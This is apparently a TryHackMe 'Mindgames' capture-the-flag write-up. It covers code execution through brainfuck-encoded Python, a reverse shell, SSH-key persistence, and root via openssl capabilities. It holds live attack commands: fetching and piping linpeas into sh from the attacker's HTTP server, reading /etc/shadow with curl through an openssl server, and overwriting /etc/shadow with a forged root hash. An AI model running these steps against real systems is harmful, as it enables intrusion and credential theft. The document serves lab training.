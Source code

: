 This is a writeup for the Box Mindgames on TryHackMe.


We are greeted by this webpage:

[![https://imgur.com/qYX6ZrS.png](https://imgur.com/qYX6ZrS.png)](https://imgur.com/qYX6ZrS.png)


There we can see some weird cryptic characters.

Luckily i saw it before and knew it is brainfuck code.

I used https://copy.sh/brainfuck/text.html to start playing arround with someoutput.

It seems like the code is executed in python so we can try something like a simple ls:

[![https://imgur.com/hBHedq9.png](https://imgur.com/hBHedq9.png)](https://imgur.com/hBHedq9.png)

It works!

[![https://imgur.com/Ix7XilL.png](https://imgur.com/Ix7XilL.png)](https://imgur.com/Ix7XilL.png)

Now lets try to search arround for hints / something interesting.

After searching arround i didn't find anything so i though the best way is to get a reverseshell.
I tried to copy paste one from PayloadsAllTheThings but it didn't work. (https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python)
Took me a few min to realize that i have to adjust it because we don't need to tell the programm to run python we can just start at the import statement:

[![https://imgur.com/nbwFn9z.png](https://imgur.com/nbwFn9z.png)](https://imgur.com/nbwFn9z.png)

Now we are in!

[![https://imgur.com/q5JEsep.png](https://imgur.com/q5JEsep.png)](https://imgur.com/q5JEsep.png)

Lets find the userflag and a way to advance ! 

I found the userflag yaaay i am not going to tell you where but its not hidden.

Next i made a .ssh directory generated ssh keypair with sshkeygen and added the pubkey in the authorized file i created copyed the private key to my host machine and logged into ssh with the -i option for private key.

[![https://imgur.com/hGxHijO.png](https://imgur.com/hGxHijO.png)](https://imgur.com/hGxHijO.png)

Now on my hostmachine i already have linpeas.sh downloaded so i set up a http.server with python:

python3 -m http.server 10000

On the target in the /tmp directory we can get the file now with wget and execute it:

wget http://ip:10000/linpeas.sh | sh

We find something interesting.

[![https://imgur.com/qTykJym.png](https://imgur.com/qTykJym.png)](https://imgur.com/qTykJym.png)

[![https://imgur.com/fG0YCF6.png](https://imgur.com/fG0YCF6.png)](https://imgur.com/fG0YCF6.png)

Check kernel version:

[![https://imgur.com/e40xsCU.png](https://imgur.com/e40xsCU.png)](https://imgur.com/e40xsCU.png)

searchsploit with the kernel version gives us this beauties to check:

[![https://imgur.com/9wYBWI4.png](https://imgur.com/9wYBWI4.png)](https://imgur.com/9wYBWI4.png)

Lets try them out:

You can use searchsploit -m to download:
searchsploit -m linux/local/47164.sh

i renamed it to kernel_exploit.sh and then got it on the target machine with over our http server.

Typicall problems: forget permission and then wrong format..

[![https://imgur.com/8sOrDJc.png](https://imgur.com/8sOrDJc.png)](https://imgur.com/8sOrDJc.png)

Okay this seems to be a dead end..

[![https://imgur.com/ksaBlg1.png](https://imgur.com/ksaBlg1.png)](https://imgur.com/ksaBlg1.png)

Lets look for other ways to proceed!
We found cap_setsuid ! 
[![https://imgur.com/HEP67KP.png](https://imgur.com/HEP67KP.png)](https://imgur.com/HEP67KP.png)

[![https://imgur.com/eWFs7uR.png](https://imgur.com/eWFs7uR.png)](https://imgur.com/eWFs7uR.png) CREDS TO: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#capabilities

[![https://imgur.com/zXzZZff.png](https://imgur.com/zXzZZff.png)](https://imgur.com/zXzZZff.png)


Here a short summary taken from the medium article full credits go to him (his name is: Z3R0 ): 

The following part i had to research and i found this awsome medium article about Linux Capabilities and how to use openssl
 with the capability set to ep to get root.

AGAIN CREDIT TO: https://int0x33.medium.com/day-44-linux-capabilities-privilege-escalation-via-openssl-with-selinux-enabled-and-enforced-74d2bec02099

Come here again when you fully understood it and give a good summary in own words.

1. So far i understood that you can use openssl to create keys and certificates. -> So we can create a keys and certificates
2. You can also start a server running with openssl. -> We can start a server with that keys and certificates
3. Depending on where you are when you have the capability of ep set on openssl it will inherit the permission from the location. -> We start the server with openssl in the / directory.
That means if you start the server from a low privileged userdirectory you will inherit that permission but if you create it in the / directory the server will inherit root permission.
4. We can access this server with wget or curl from our normal user. -> We can do something like: curl -k "https://127.0.0.1:1337/etc/shadow"
5. Now that we have a copy of the /etc/shadow file we can create our own password hash with openssl and with that we can replace the hash for the root user in the file. -> openssl passwd -6 -salt xyz  yourpass
6. Now we want to overwrite the orginial /etc/shadow file to do that we have to encrypt our new shadowfile otherwise we can't transport it over openssl.
7. Now we can overwrite the original file. -> /openssl smime -decrypt -in /tmp/shadow.enc -inform DER -inkey /tmp/privkey.pem -out /etc/shadow
8. We can switch User to root now since we created the new password!


The command for creating a private key and a certificate with openssl is:
openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365 -nodes

with the nodes option you avoid giving a passphrase.

Now we start the server in the root directory:

openssl s_server -key /tmp/key.pem -cert /tmp/cert.pem -port 1337 -HTTP

Now that the server is running we can curl the resource we want!

curl -k "https://127.0.0.1:1337/etc/shadow" ( We could also just curl the root.txt :D )



